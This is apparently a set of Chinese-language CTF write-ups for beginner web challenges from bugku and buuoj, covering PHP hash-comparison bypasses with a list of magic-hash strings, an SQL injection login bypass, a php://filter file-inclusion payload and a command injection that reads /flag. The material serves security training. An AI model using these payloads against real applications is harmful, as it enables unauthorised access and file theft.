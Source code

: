 # 1.各种绕过哟



来源：bugku

![image-20210719095448306](%E7%AE%80%E5%8D%95.assets/image-20210719095448306.png)



拿到flag要求：

传入uname，passwd，id三个参数

- uname与passwd值不能相同
- 经过sha1加密的uname与passwd相同。而且id=margin



## sha1()漏洞

sha1()函数无法处理数组类型，将报错并返回false。若两个false互相比较，那是相等的。

![image-20210719095627953](%E7%AE%80%E5%8D%95.assets/image-20210719095627953.png)

![image-20210719095633740](%E7%AE%80%E5%8D%95.assets/image-20210719095633740.png)



扩展

### MD5漏洞

PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是常见的payload有：

    QNKCDZO
    240610708
    s878926199a
    s155964671a
    s214587387a
    s214587387a
     sha1(str)
    sha1('aaroZmOk')  
    sha1('aaK1STfY')
    sha1('aaO8zKZF')
    sha1('aa3OFF9m')

MD5不能处理数组，若有以下判断则可用数组绕过0。

```php
if(@md5($_GET['a']) == @md5($_GET['b']))
{
echo "yes";
}
```



# 2.**EasySQL** **极客大挑战** **2019**

来源：buuoj

解题思路：

1. 访问网站

![image-20210719095909808](%E7%AE%80%E5%8D%95.assets/image-20210719095909808.png)

2. 万能密码

   admin' or '1'='1

   

![image-20210719095937427](%E7%AE%80%E5%8D%95.assets/image-20210719095937427.png)



# 3. [ACTF2020 新生赛] Include

来源：buuoj

思路：

1. 访问目标，有个链接

![image-20210719100034742](%E7%AE%80%E5%8D%95.assets/image-20210719100034742.png)

2. 点击，发现url出现参数file。说明可能有文件包含。我们可以用伪协议读取flag.php源码

![image-20210719100109016](%E7%AE%80%E5%8D%95.assets/image-20210719100109016.png)

3. 

![image-20210719100125194](%E7%AE%80%E5%8D%95.assets/image-20210719100125194.png)

4. base64解码

   ![image-20210719100140222](%E7%AE%80%E5%8D%95.assets/image-20210719100140222.png)



# 4. [极客大挑战 2019]Secret File

来源：buupj

思路：

​	1. 访问网站。没发现可疑地方。看源代码，发现一url

​	![image-20210719100229484](%E7%AE%80%E5%8D%95.assets/image-20210719100229484.png)

2. 访问该地址，中间红色链接可以点

![image-20210719100250062](%E7%AE%80%E5%8D%95.assets/image-20210719100250062.png)

3. 点链接后进入end.php

   ![image-20210719100321124](%E7%AE%80%E5%8D%95.assets/image-20210719100321124.png)

4. 返回上一步查看源码，发现action.php

![image-20210719100341660](%E7%AE%80%E5%8D%95.assets/image-20210719100341660.png)

5. burp抓包，发现action.php返回的信息如下

   ![image-20210719100419918](%E7%AE%80%E5%8D%95.assets/image-20210719100419918.png)

   6.访问是代码审计

   ![image-20210719100454410](%E7%AE%80%E5%8D%95.assets/image-20210719100454410.png)



  7. ![image-20210719100542405](%E7%AE%80%E5%8D%95.assets/image-20210719100542405.png)

     所以，这段代码意思是，不能让file路径里面含有`../` , `tp` , `input` , `data` 

     所以我们使用php:filter//伪协议

		8. 

```php
payload: ?file=php://filter/convert.base64-encode/resource=flag.php
```



​	9. ![image-20210719100734760](%E7%AE%80%E5%8D%95.assets/image-20210719100734760.png)



# 5. [ACTF2020 新生赛]Exec

来源：buuoj

思路：

1. 进入网站，直接输入127.0.0.1 & ls

![image-20210719100837163](%E7%AE%80%E5%8D%95.assets/image-20210719100837163.png)

2. 127.0.0.1 & ls/  查看根目录，发现flag文件

![image-20210719100934556](%E7%AE%80%E5%8D%95.assets/image-20210719100934556.png)

3. 127.0.0.1 & cat /flag  得到flag

   ![image-20210719101002542](%E7%AE%80%E5%8D%95.assets/image-20210719101002542.png)

